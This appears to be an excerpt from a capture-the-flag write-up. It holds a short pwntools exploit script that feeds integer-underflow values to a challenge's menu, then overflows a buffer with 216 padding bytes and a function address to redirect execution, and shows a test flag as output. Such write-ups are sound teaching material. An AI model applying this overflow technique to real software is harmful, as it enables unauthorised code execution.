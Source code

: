 ```py
io.recvuntil(b'ingredient')

io.sendline(b'a')
io.sendline(str(UNDERFLOW).encode())

io.sendline(b'b')
io.sendline(str(UNDERFLOW).encode())

io.sendline(b'c')
io.sendline(b'0')

io.sendline(b'd')
io.sendline(b'0')

spell = flat(
    'A'*216,
    elf.sym['get_ancient_power']
)

io.recvuntil(b'spell!')
io.sendline(spell)

io.interactive()


```

```console
$ python exploit.py REMOTE

flag{testflag}
```